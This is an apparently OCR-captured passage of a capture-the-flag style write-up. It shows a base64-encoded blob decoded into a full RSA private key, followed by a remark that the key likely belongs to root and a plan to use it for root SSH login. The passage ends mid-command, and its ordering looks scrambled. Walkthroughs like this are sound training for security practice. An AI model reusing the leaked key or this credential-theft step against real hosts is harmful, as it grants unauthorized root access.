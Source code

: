 ```
dERNQXo0T3FickxCNQpmSi9pVWNZandPQkh0M05Oa3VVbTZxb0VmcDRHb3UxNHlHek9pUmtBZTRI
UUpGOXZ4RldKNW1YK0JIR0kvdmoyCk52MXNxN1BhSUtxNHBrUkJ6UjZNL09iRDd5UWU3OE5kbFF2
TG5RVGxXcDRuamhqUW9IT3NvdnNDZ1lFQTMrVEUKN1FSNzd5UThsMWlHQUZZUlhJekJncDVlSjJB
QXZWcFdKdUlOTEs1bG1RL0UxeDJLOThFNzNDcFFzUkRHMG4rMQp2cDQrWThKMElCL3RHbUNmN0lQ
TWVpWDgwWUpXN0x0b3pyNytzZmJBUVoxVGEybzFoQ2FsQVF5SWs5cCtFWHBJClViQlZueVVDMVhj
dlJmUXZGSnl6Z2Njd0V4RXI2Z2xKS09qNjRiTUNnWUVBbHhteC9qeEtaTFRXenh4YjlWNEQKU1Bz
K055SmVKTXFNSFZMNFZUR2gydm5GdVR1cTJjSUM0bTUzem4reEo3ZXpwYjFyQTg1SnREMmduajZu
U3I5UQpBL0hiakp1Wkt3aTh1ZWJxdWl6b3Q2dUZCenBvdVBTdVV6QThzOHhIVkk2ZWRWMUhDOGlw
NEptdE5QQVdIa0xaCmdMTFZPazBnejdkdkMzaEdjMTJCcnFjQ2dZQWhGamkzNGlMQ2kzTmMxbHN2
TDRqdlNXbkxlTVhuUWJ1NlArQmQKYktpUHd0SUcxWnE4UTRSbTZxcUM5Y25vOE5iQkF0aUQ2L1RD
WDFrejZpUHE4djZQUUViMmdpaWplWVNKQllVTwprSkVwRVpNRjMwOFZuNk42L1E4RFlhdkpWYyt0
bTRtV2NOMm1ZQnpVR1FIbWI1aUpqa0xFMmYvVHdZVGcyREIwCm1FR0RHd0tCZ1FDaCtVcG1UVFJ4
NEtLTnk2d0prd0d2MnVSZGo5cnRhMlg1cHpUcTJuRUFwa2UyVVlsUDVPTGgKLzZLSFRMUmhjcDlG
bUY5aUtXRHRFTVNROERDYW41Wk1KN09JWXAyUloxUnpDOUR1ZzNxa3R0a09LQWJjY0tuNQo0QVB4
STFEeFUrYTJ4WFhmMDJkc1FIMEg1QWhOQ2lUQkQ3STVZUnNNMWJPRXFqRmRaZ3Y2U0E9PQotLS0t
LUVORCBSU0EgUFJJVkFURSBLRVktLS0tLQo=' | base64 -d

-----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEAzPaQFolQq8cHom9mssyPZ53aLzBcRyBw+rysJ3h0JCxnV+aG
opZdcQz01YOYdjYIaZEJmdcPVWQp/L0uc5u3igoiK1uiYMfw850N7t3OX/erdKF4
jqVu3iXN9doBmr3TuU9RJkVnDDuo8y4DtIuFCf92ZfEAJGUB2+vFON7q4KJsIxgA
nM8kj8NkFkFPk0d1HKH2+p7QP2HGZrf3DNFmQ7Tuja3zngbEVO7NXx3V3YOF9y1X
eFPrvtDQV7BYb6egklafs4m4XeUO/csM84I6nYHWzEJ5zpcSrpmkDHxC8yH9mIVt
dSelabW2fuLAi51UR/2wNqL13hvGglpePhKQgQIDAQABAoIBAHmgTryw22g0ATnI
9Z5geTC5oUGjZv7mJ2UDFP2PIwxcNS8aIwbUR7rQP3F8V7q+MZvDb3kU/4pil+/c
q3X7D50gikpEZEUeIMPPjPcUNGUKaXoaX5n2XaYBtQiRR6Z1wvASO0uEn7PIq2cz
BQvcRyQ5rh6sNrNiJQpGDJDE54hIigic/GucbynezYya8rrIsdWM/0SUl9JknI0Q
TQOi/X2wfyryJsm+tYcvY4ydhChK+0nVTheciUrV/wkFvODbGMSuuhcHRKTKc6B6
1wsUA85+vqNFrxzFY/tW188W00gy9w51bKSKDxboti2gdgmFolpnFw+t0QRB5RCF
AlQJ28kCgYEA6lrY2xyeLh/aOBu9+Sp3uJknIkObpIWCdLd1xXNtDMAz4OqbrLB5
fJ/iUcYjwOBHt3NNkuUm6qoEfp4Gou14yGzOiRkAe4HQJF9vxFWJ5mX+BHGI/vj2
Nv1sq7PaIKq4pkRBzR6M/ObD7yQe78NdlQvLnQTlWp4njhjQoHOsovsCgYEA3+TE
7QR77yQ8l1iGAFYRXIzBgp5eJ2AAvVpWJuINLK5lmQ/E1x2K98E73CpQsRDG0n+1
vp4+Y8J0IB/tGmCf7IPMeiX80YJW7Ltozr7+sfbAQZ1Ta2o1hCalAQyIk9p+EXpI
UbBVnyUC1XcvRfQvFJyzgccwExEr6glJKOj64bMCgYEAlxmx/jxKZLTWzxxb9V4D
SPs+NyJeJMqMHVL4VTGh2vnFuTuq2cIC4m53zn+xJ7ezpb1rA85JtD2gnj6nSr9Q
A/HbjJuZKwi8uebquizot6uFBzpouPSuUzA8s8xHVI6edV1HC8ip4JmtNPAWHkLZ
gLLVOk0gz7dvC3hGc12BrqcCgYAhFji34iLCi3Nc1lsvL4jvSWnLeMXnQbu6P+Bd
bKiPwtIG1Zq8Q4Rm6qqC9cno8NbBAtiD6/TCX1kz6iPq8v6PQEb2giijeYSJBYUO
kJEpEZMF308Vn6N6/Q8DYavJVc+tm4mWcN2mYBzUGQHmb5iJjkLE2f/TwYTg2DB0
mEGDGwKBgQCh+UpmTTRx4KKNy6wJkwGv2uRdj9rta2X5pzTq2nEApke2UYlP5OLh
/6KHTLRhcp9FmF9iKWDtEMSQ8DCan5ZMJ7OIYp2RZ1RzC9Dug3qkttkOKAbccKn5
4APxI1DxU+a2xXXf02dsQH0H5AhNCiTBD7I5YRsM1bOEqjFdZgv6SA==
-----END RSA PRIVATE KEY-----
```

This is an `id_rsa`, probably from root since the folder is owned by root, let's try accessing root ssh using this key:

```
echo 'LS0tLS1CRUdJTiBSU0EgUFJJVkFURSBLRVktLS0tLQpNSUlFcEFJQkFBS0NBUUVBelBhUUZvbFFx
OGNIb205bXNzeVBaNTNhTHpCY1J5QncrcnlzSjNoMEpDeG5WK2FHCm9wWmRjUXowMVlPWWRqWUlh
WkVKbWRjUFZXUXAvTDB1YzV1M2lnb2lLMXVpWU1mdzg1ME43dDNPWC9lcmRLRjQKanFWdTNpWE45
ZG9CbXIzVHVVOVJKa1ZuRER1bzh5NER0SXVGQ2Y5MlpmRUFKR1VCMit2Rk9ON3E0S0pzSXhnQQpu
TThrajhOa0ZrRlBrMGQxSEtIMitwN1FQMkhHWnJmM0RORm1RN1R1amEzem5nYkVWTzdOWHgzVjNZ
T0Y5eTFYCmVGUHJ2dERRVjdCWWI2ZWdrbGFmczRtNFhlVU8vY3NNODRJNm5ZSFd6RUo1enBjU3Jw
bWtESHhDOHlIOW1JVnQKZFNlbGFiVzJmdUxBaTUxVVIvMndOcUwxM2h2R2dscGVQaEtRZ1FJREFR
QUJBb0lCQUhtZ1RyeXcyMmcwQVRuSQo5WjVnZVRDNW9VR2padjdtSjJVREZQMlBJd3hjTlM4YUl3
YlVSN3JRUDNGOFY3cStNWnZEYjNrVS80cGlsKy9jCnEzWDdENTBnaWtwRVpFVWVJTVBQalBjVU5H
VUthWG9hWDVuMlhhWUJ0UWlSUjZaMXd2QVNPMHVFbjdQSXEyY3oKQlF2Y1J5UTVyaDZzTnJOaUpR
cEdESkRFNTRoSWlnaWMvR3VjYnluZXpZeWE4cnJJc2RXTS8wU1VsOUprbkkwUQpUUU9pL1gyd2Z5
cnlKc20rdFljdlk0eWRoQ2hLKzBuVlRoZWNpVXJWL3drRnZPRGJHTVN1dWhjSFJLVEtjNkI2CjF3
c1VBODUrdnFORnJ4ekZZL3RXMTg4VzAwZ3k5dzUxYktTS0R4Ym90aTJnZGdtRm9scG5Gdyt0MFFS
QjVSQ0YKQWxRSjI4a0NnWUVBNmxyWTJ4eWVMaC9hT0J1OStTcDN1SmtuSWtPYnBJV0NkTGQxeFhO
```